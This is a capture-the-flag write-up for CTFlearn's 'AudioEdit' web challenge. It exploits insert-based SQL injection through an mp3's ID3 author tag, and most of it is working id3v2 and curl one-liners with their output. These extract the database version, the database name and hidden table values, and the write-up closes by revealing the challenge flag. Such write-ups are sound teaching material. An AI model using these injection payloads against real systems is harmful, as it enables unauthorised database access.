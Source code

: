 # AudioEdit

[AudioEdit](https://web.ctflearn.com/audioedit/) is a **hard** web challenge on CTFlearn. That challenge is about exploiting SQL injection vulnerability in the metadata of an audio file.


## Solution

When we visit the website, we see a simple audio editing tool. We can upload an audio file, and then we can apply some effects to it.

![AudioEdit](https://beeimg.com/images/s28975348663.png)

If we upload a mp3 file, we can see that the author of the music and the title of the song are displayed, which are extracted from the metadata of the file.

So I downloaded an arbitrary mp3 file from that [website](https://cable.ayra.ch/empty/) and edited the metadata using `id3v2` tool.

Install the tool using the following command.

```bash
sudo apt-get install -y id3v2
```

Then I changed the author of the song to `AAAAAAAAAAAAAAAAAAAAAA`.

```bash
id3v2 -a "AAAAAAAAAAAAAAAAAAAAAA" empty.mp3
```

I uploaded the file to the website and I saw that the metadata was changed.

![AudioEdit](https://beeimg.com/images/q94938211903.png)

I inferred that when we upload a file, the server extracts the metadata and stores it in a database. So I tried to upload an mp3 file with a sql injection in the metadata.

```bash
id3v2 -a "AAAAAAAAAAAAAAAAAAAAAA' OR 1=1 --" empty.mp3
```
To speed up the process, we can send the request to the server using `curl` and extract the author of the song from the response.
 
```bash
sarp@IdeaPad:/tmp$ id3v2 -a "aAAAAAAAAAAAAAAAAAAAAAA' OR 1=1 --" empty.mp3 | curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L 

Error inserting into database!
```

The server returned an error message, which means that the sql injection may be successful. 

Assume that the query executed by the server is like this:

```sql
INSERT INTO audios (id, author, title) VALUES (NULL, '$author', '$title');
```

Since it is likely insertion-based SQL injection and reflects the author field, we can try to extract the version of the database management system.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', VERSION() ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

5.5.58-0ubuntu0.14.04.1
```
We successfully extracted the version of the database management system. It is MySQL 5.5.58.

The reason why I used `xxd -l16 -ps /dev/urandom` is to generate a random string of length 16 and make the file unique. Otherwise, the server won't accept the same file.

Also, I wrote a grep command to extract title section from the response.

Now, we can extract the name of the database.

```bash
id3v2 -a "$(xxd -l16 -ps /dev/urandom)', DATABASE() ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

audioedit
```

The name of the database is `audioedit`. Here, I have tried many different payloads to extract the table names and column names. But I couldn't find any useful information. Because we even don't have the read permission on the information_schema database. The payloads I tried are perfectly valid, I know that because I tried them on my local MySQL server.

```sql
SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='audioedit';
```

This query should return the table names in the `audioedit` database. But it didn't work.


So, there's nothing left to do but to guess the table name and column names.

I tried to extract the flag from the `flag` table but I couldn't find the table name. Then I tried the `audioedit` table and I was successful.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', (SELECT title FROM audioedit as a LIMIT 1) ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

flag
```

Seems like we are in the right direction. In the `audioedit` table, there is a column named `title` and the first row contains an entry having the value `flag`.

Keep the payload the same and change the column name to `author`.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', (SELECT author FROM audioedit as a LIMIT 1) ) -- -" empty.mp3 |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

ABCTF
```

Since the URL is formed like this, we can try to extract the `file` column from the `audioedit` table.

```
https://web.ctflearn.com/audioedit/edit.php?file=6a84c0529f9644a4275d4bd64b5266c584a26755.mp3
```

Here is the command to extract the `file` column.

```bash
sarp@IdeaPad:/tmp$ id3v2 -a "$(xxd -l16 -ps /dev/urandom)', (SELECT file FROM audioedit as a LIMIT 1) ) -- -" empty.mp3  |  curl -X POST -F "audio=@empty.mp3" "https://web.ctflearn.com/audioedit/submit_upload.php"  -L -s | grep -oP '<h5>Title: <small>\K[^<]+'

supersecretflagf1le.mp3
```

Bingo! We found the name of the file that contains the flag. Now we can download the file using the following URL.

```
https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3
```

![](https://beeimg.com/images/m34194978491.png)

Actually, the challenge was done at this point. However, years have passed since the challenge was published, the site does not work properly. So we couldn't see the spectogram of the audio file. But we can still download the file and listen to it.

```bash
wget https://web.ctflearn.com/audioedit/uploads/supersecretflagf1le.mp3
```

After I did some research and found a repository that the javascript implementation of the spectogram. I forked the repository and made some changes to make it work with the downloaded file.

<img src="https://camo.githubusercontent.com/89f19baf736619559be7fc253f898aa58cc2339558dbab81fbf68c2e0e76f2eb/687474703a2f2f7572747a7572642e6769746875622e696f2f68746d6c2d617564696f2f7374617469632f696d672f73637265656e73686f742e706e67" alt="Spectogram" width="250" height="250">


You can [visit](https://github.com/urtzurd/html-audio) the repository I forked and hosted on GitHub Pages [here](https://sarperfiles.github.io/html-audio/static/)
 

![Spectogram](https://beeimg.com/images/n80186953914.png)

The flag is `ABCTF{m3t4_inj3cti00n}`.

## Conclusion

Huh! That's a lot of work. I hope you enjoyed the challenge as much as I did. If you have any questions, feel free to ask me on [Twitter](https://twitter.com/sarperavci).